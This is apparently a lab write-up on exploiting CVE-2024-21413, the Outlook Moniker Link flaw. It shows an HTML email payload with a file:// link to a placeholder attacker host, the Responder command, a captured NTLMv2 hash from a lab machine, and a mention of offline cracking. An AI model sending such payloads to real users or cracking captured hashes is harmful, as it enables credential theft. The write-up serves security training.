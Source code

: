 # CVE-2024-21413 - Moniker Link Exploit via Outlook

This lab demonstrates exploitation of CVE-2024-21413 (Moniker Link vulnerability in Microsoft Outlook), which allows a remote attacker to capture NTLMv2 hashes by sending a specially crafted email. This report includes payload details, tool usage, and results captured during testing in a controlled environment.

## ⚙️ Lab Setup

**Attacker Machine:**  
- OS: Kali Linux  
- Tool: Responder  
- Network: Host-only subnet with SMTP and SMB routing to victim  

**Victim Machine:**  
- OS: Windows 10 (Outlook configured)  
- Email client: Microsoft Outlook  
- Network: Same subnet as attacker  

## 📬 Email Payload

The payload is an HTML email with an embedded UNC path triggering an SMB request when opened in Outlook. The HTML code was embedded and sent via a Python script:

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```
The email was crafted using [this script](https://github.com/colinlyons29/redteam-walkthroughs/CVE-2024-21413-MonikerLink/payload/) credit to CMNatic

## 🧠 Exploit Process
Started Responder on Kali to listen for inbound SMB connections:
```
sudo responder -I eth0
```
Executed the email payload script on the attacker machine:
```
python3 exploit.py
```
Victim then opened the email in Outlook & clicked the link provided.
Responder captured the NTLMv2 hash from the victim system:
```
[SMB] NTLMv2-SSP Client : ::ffff:10.10.134.81
[SMB] NTLMv2-SSP Username : THM-MONIKERLINK\tryhackme
[SMB] NTLMv2-SSP Hash
: tryhackme: :THM-MONIKERLINK:d884749f68a6de55:CAFD9223FFA851DCB6B4F07C7240B104:01010000000000008016FE5018BBDB01CD6FAFD58D762C0600000000
0200080050004A0030004A0001001E00570049004E002D004A00580039004B00420052004C004B0031005800370004003400570049004E002D004A00580039004B00420052004C004B003100580037002
E0050004A0030004A002E004C004F00430041004C000300140050004A0030004A002E004C004F00430041004C000500140050004A0030004A002E004C004F00430041004C00070008008016FE5018BBDB
01060004000200000008003000300000000000000000000000002000004099F5BC7F5925B8B3AD139935B27D31DDF17B4BF729DDE9C6AA11E3227981900A0010000000000000000000000000000000000
00900240063006900660073002F00310030002E00310030002E003100380037002E00320033003700000000000000000000000000
```

## 🧪 Outcome
- Successfully triggered Outlook to initiate an SMB authentication attempt via Moniker Link.

- Captured NTLMv2 hash using Responder.

- The hash can be cracked offline with hashcat or john for potential credential compromise.

## 🔐 Notes
- Microsoft has patched this issue as of February 2024.

- The attack demonstrates the risks of UNC path resolution in email clients.

## 🧰 Tools Used
- Kali Linux (2024.1)

- Responder

- Python 3.10

- Outlook 2019 on Windows 10 VM

## 🧾 References
- [CVE-2024-21413 on NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-21413)

- [Microsoft Patch Details](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413)

- [CMNatic GitHub Payload](https://github.com/cmnatic)

